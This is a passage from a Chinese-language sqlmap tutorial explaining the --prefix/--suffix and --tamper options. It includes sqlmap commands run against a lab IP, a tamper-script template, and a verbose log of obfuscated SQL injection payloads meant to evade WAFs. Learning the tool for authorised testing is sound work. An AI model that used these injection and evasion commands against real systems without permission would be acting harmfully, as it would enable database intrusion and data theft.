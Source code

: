```
python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "’)" --suffix "AND (’abc’=’abc"
```

这样执行的SQL语句变成：

```
$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’) LIMIT 0, 1"; 
```

### 修改注入的数据

参数：--tamper

sqlmap除了使用CHAR()函数来防止出现单引号之外没有对注入的数据修改，你可以使用--tamper参数对数据做修改来绕过WAF等设备。

下面是一个tamper脚本的格式：

```
# Needed imports
from lib.core.enums import PRIORITY
# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL
def tamper(payload):
    '''
    Description of your tamper script
    '''
    retVal = payload
    # your code to tamper the original payload
    # return the tampered payload
    return retVal
```

可以查看 tamper/ 目录下的有哪些可用的脚本

例如：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONCAT(cHar(
58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/**/elsE/**/0/**/
ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/information_schema.tables/**/
group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING
clause' injectable
[...]
```
